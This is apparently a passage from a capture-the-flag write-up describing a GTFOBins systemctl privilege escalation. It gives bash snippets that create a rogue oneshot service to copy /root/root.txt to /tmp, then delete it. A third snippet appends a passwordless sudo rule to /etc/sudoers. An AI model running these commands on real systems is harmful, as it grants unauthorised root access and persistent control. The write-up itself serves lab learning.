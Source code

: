 The first thing I did was to search `systemctl` on `gtfobin` and I found something [gtfobin/systemctl](https://gtfobins.github.io/gtfobins/systemctl/)

Using the said method I was able to get the root flag.

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
Just run this and we'll have the root hash in a file named `output` in `tmp` directory.

![](images/root.png)

***

__Note__: I didn't wanted to spoil it for others so I removed that file in the similar way

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

***

Also you can do something like

```bash
TF=$(mktemp).service

echo '[Unit]
Description=evil service
[Service]
Type=oneshot
ExecStart=/bin/sh -c "echo pepper ALL=\(ALL\) NOPASSWD: ALL>> /etc/sudoers"
[Install]
WantedBy=multi-user.target' > $TF

systemctl link $TF
systemctl enable --now $TF
```
